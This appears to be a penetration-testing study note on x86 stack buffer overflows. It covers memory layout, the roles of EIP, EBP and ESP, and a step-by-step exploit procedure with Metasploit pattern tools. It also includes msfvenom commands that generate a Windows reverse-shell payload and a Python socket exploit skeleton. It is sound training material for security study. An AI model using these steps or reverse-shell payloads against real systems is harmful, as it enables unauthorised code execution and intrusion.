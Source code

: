 # x86 Stack Buffer Overflow Steps    
Resources:      
https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst    
[TCM: Buffer Overflows Made Easy](https://www.youtube.com/watch?v=ncBblM920jw)     
[Vulnerable Functions](https://int0x33.medium.com/day-49-common-c-code-vulnerabilities-and-mitigations-7eded437ca4a)    
[Red Team Notes - x32 Stack Based Buffer Overflow](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/stack-based-buffer-overflow)    
Buffer overflow: memory corruption exploit.     

## Anatomy of Memory     
```
Higher memory addresses 
--- Kernel ---
--- Stack ---  
--- Heap ---
--- BSS --- 
--- Data ---
--- Text ---
Lower memory addresses  
```   
Stack: LIFO (last in, first out), memory addresses grow down, contains function values (stack frames) need for the program to function. Instruction Pointer: registers that store the next instruction to execute.     
Heap segment: memory the programmer can control. Can be allocated and used, grows smaller or larger as needed. The memory within the heap is managed by allocator and deallocator algorithims, reserve a region of memory in the heap for use / remove perms to allow that portion of memory to be reused for later reservations. Heap will grow or shrink depending on how much memory is reserved for use.        
Data and bss segments: store global and static program vars. Data segment: filled with initialized global and static vars, bss is filled with unintialized. writeable segments with a fixed size, allows global and static vars to persist.           
Text / code segment: a fixed size segment, where assembled machine language instructions of the program are located.
      
Stack before overflow:      
```
High memory address ("base of stack")
-- Main()'s stack frame -- 
-- Arguments --   
-- Return address -- 
-- EBP (base pointer for the current stack frame) -- 
-- Local variables -- 
Low memory address ("top of the stack" - ESP)   
```
Stack after overflow:    
```
High memory address  
-- Shellcode --   
-- ESP --  
-- &jmp esp -- 
-- Overflow -- 
Low memory address ("top of the stack")
```

Stack frame: EBP register (or frame pointer (FP) / local base (LB) pointer) is used to reference local function variables in the current stack frame. Each stack frame contains the parameters to the function, its local variables, and two pointers that are neccessary to put things back the way they were: the saved frame pointer (SFP) and the return address. The SFP is used to restore EBP to its previous value, and the return address is used to restore EIP to the next instruction found after the function call.     
EIP - points to the next instruction for the CPU to execute.     
EBP - points to the base of the current stack frame (used as a reference point).    
ESP - points to the "top" of the stack.       

## What You Need    
- A vulnerable executable.
- A debugger such as GDB/GEF or Immunity Debugger (OS / platform dependant).
- A testing enviroment with the same architechure as the target.   
- Helpful tools: MsfVenom for generating payloads, pwntools Python library.    

## General Stack Buffer Overflow Steps   
Buffer overflow: an attacker can overflow a memory buffer by writing data to it without the program using bound checking to limit this from happening. This can affect not only the buffer but adjacent memory. An attacker can sometimes get remote code execution or privilege escalation.       

1. Identify the architechure for the binary and any protections on it (NX, ASLR, etc). 
2. Identify a segmentation fault causing a program to crash by fuzzing a program.    
    python -c "print('A'*200)" | nc 127.0.0.1 10000    
3. Test the ability to overwrite EIP and control program execution.
    3a. Note EIP value after a crash using a debugger.     
4. Identify the amount of bytes needed to overflow the program and overwrite EIP (the offset).   
    4a. Use a pattern to calculate the offset by supplying it as input to the program and noting the value of EIP.     
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300   
    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <value at EIP>
5. Note if the injected code is written onto the stack - if so EIP can force execution to ESP to then execute shellcode.    
6. Generate or write shellcode. If necessary, exclude common bad characters like \x00, \x0A, \x0D. Bad chars often corrupt the next byte after them so just take the first one in a sequence of 2.     
    msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f python    
7. Test the program for bad characters by creating a bytearray of chars from \x01 to \xff, injecting the characters and looking at the memory dump of the memory lcoation pointed to by EIP after the crash.       
All possible chars:     
    for i in {0..255}; do printf "\\\x%02x" $i; done; echo -e "\r"    
Generate a payload without bad chars:     
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f python -b 0x0a    
8. Control the overwrite - jump to a specific location and execute code there. One way to do this: find a 'jmp esp' instruction in the program that will ensure the shellcode on the stack will be executed and overwrite EIP with the memory address of this value.    
9. Insert padding (NOPs) as needed to ensure the exploit is more reliable (more room for error).

General buffer overflow exploit payload (this may need tweaking):      
Offset characters + return address (will overwrite EIP) + NOPs for padding + shellcode   

Common C vulnerable functions: strcpy(), stpcpy(), gets(), strcat(), strcmp(), sprintf().       

Exploit skeleton code:    
```
import socket, sys
#connect to a vulnerable server and send a payload - can also craft exploit using pwntools   
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("127.0.0.1", 10000))
# send A's
buf = b"A"*268      #multiple by the offset  
# overwrite EIP with string RETN
buf += b"RETN"
# shellcode
buf += b"SHELLCODE"
# send payload
sock.send(buf)
sock.close()
```   
## Payload Considerations   
### Bad Chars   
Common bad chars: 0x00, 0x0A, 0x0D    
Options to deal with bad chars:   
- Encode the payload to exclude bad chars.   
- Partial instruction pointer overwrite   

## Dealing with Limited Space for Your Shellcode   
Check the stack to see how much space for the shellcode you have.    
Methods to deal with limited shellcode space:  
- Socket reuse. 
- Inject shellcode somewhere in memory, use an egghunter to find the shellcode in memory and execute it. 
